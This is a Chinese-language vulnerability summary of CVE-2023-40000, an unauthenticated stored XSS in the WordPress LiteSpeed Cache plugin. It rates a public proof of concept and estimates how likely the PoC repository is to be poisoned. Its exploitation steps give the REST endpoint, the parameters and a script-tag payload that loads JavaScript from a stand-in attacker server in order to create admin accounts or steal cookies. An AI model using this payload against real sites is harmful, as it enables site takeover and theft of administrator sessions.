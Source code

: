 ## CVE-2023-40000-LiteSpeed Cache-Stored XSS

**漏洞编号:** CVE-2023-40000

**漏洞类型:** Stored XSS

**影响应用:** LiteSpeed Cache

**危害等级:** 高危，可能导致权限提升和敏感信息泄露

**影响版本:** <= 5.7

**利用条件:** 目标网站安装了LiteSpeed Cache插件且版本低于或等于5.7，攻击者无需认证即可利用

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该漏洞存在于LiteSpeed Cache插件的`update_cdn_status`函数中。由于该函数未对输入进行充分的过滤，攻击者可以通过发送包含恶意JavaScript代码的POST请求，将XSS payload存储在服务器上。当管理员访问WordPress后台时，恶意代码会被执行，从而实现权限提升等攻击。

**有效性：**

提供的PoC代码是有效的，它通过模拟发送带有恶意脚本的POST请求，利用`update_cdn_status`函数中的漏洞，实现存储型XSS。

**投毒风险：**

PoC仓库中可能存在投毒代码的风险较低（10%）。PoC的主要功能是演示漏洞利用，但恶意作者可能会在PoC中添加额外的代码，例如收集用户信息、植入后门等。代码的readme部分以及license是比较标准的, 只是单纯的demo. 但仍需要审查 `admin-bar-reloaded.min.js` 中的js代码。

**利用方式：**

1.  攻击者构造包含恶意JavaScript代码的POST请求。
2.  将`success`参数设置为`0`，`result[_msg]`参数设置为包含`<script src=https://your.server/admin-bar-reloaded.min.js></script>`的payload，其中`https://your.server/admin-bar-reloaded.min.js`指向攻击者控制的服务器上的恶意脚本。
3.  通过cURL等工具将POST请求发送到目标网站的`/wp-json/litespeed/v1/cdn_status`端点。
4.  当管理员访问WordPress后台时，存储的XSS payload会被触发，执行恶意JavaScript代码。
5.  恶意代码可以创建新的管理员账号，或者执行其他恶意操作，例如窃取Cookie、修改网站内容等。

**项目地址:** [quantiom/litespeed-cache-xss-poc](https://github.com/quantiom/litespeed-cache-xss-poc)

**漏洞详情:** [CVE-2023-40000](https://nvd.nist.gov/vuln/detail/CVE-2023-40000)